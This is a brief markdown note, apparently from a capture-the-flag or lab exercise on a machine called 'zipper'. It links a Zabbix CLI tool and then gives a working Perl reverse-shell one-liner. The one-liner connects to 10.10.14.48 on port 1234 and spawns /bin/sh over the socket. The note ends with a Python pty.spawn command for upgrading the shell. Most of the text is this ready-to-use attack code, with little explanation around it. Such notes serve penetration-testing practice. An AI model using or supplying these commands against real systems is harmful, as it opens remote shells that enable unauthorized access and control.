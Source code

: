 # zipper

## zipper-cli

https://github.com/usit-gd/zabbix-cli

## reverse-sheel

cannot use bash to reverse shell, so you can use perl:

```perl
perl -e 'use Socket;$i="10.10.14.48";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## get bash by python

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
